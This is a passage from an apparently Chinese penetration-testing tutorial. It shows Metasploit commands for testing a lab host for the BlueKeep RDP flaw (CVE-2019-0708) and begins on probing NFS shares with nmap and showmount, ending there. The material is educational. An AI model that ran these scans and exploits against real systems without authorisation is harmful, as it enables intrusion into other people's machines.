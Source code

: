 [https://blog.csdn.net/weixin\_40412037/article/details/123524027](https://blog.csdn.net/weixin_40412037/article/details/123524027)

输入法漏洞
-----

太久远了 仅作了解

[https://blog.csdn.net/weixin\_42582241/article/details/121184153](https://blog.csdn.net/weixin_42582241/article/details/121184153)

使用msf验证Microsoft RDP RCE (CVE-2019-0708)漏洞
------------------------------------------

搜索 0708

```php
 search 0708
```

![image-20220528045640358](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-1fa8851e12ec0262518a824a95b3fdff4d485535.png)

测试主机是否存在0708漏洞

```php
msf6 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.160.139
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > exploit
```

执行渗透,有概率会成功，成功页面如下述

![image-20220528045928594](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f7857cd08d6248393f8bace34e00965278e81ce8.png)

![image-20220528050010412](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9c753f073622fe9365b08f379241e10644bbe865.png)

0x10 NFS(2049)
==============

NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。

> 在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

利用nmap针对性测试一下2049端口是否开放

![image-20220622091352349](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-4e6828e1f0b7bb779d1aa47668c7344cf53940c8.png)

### Linux NFS共享目录配置漏洞

未授权访问：未限制IP以及⽤户权限设置错误，其实漏洞形成的原理就是权限不 对，/etc/exports这个⽂件中的权限设置，我们上⽂采⽤的是root权限，所以导致服务器 被⼊侵

#### 1.查看靶机上设置的远程共享目录列表

```php
showmount –e ip
```

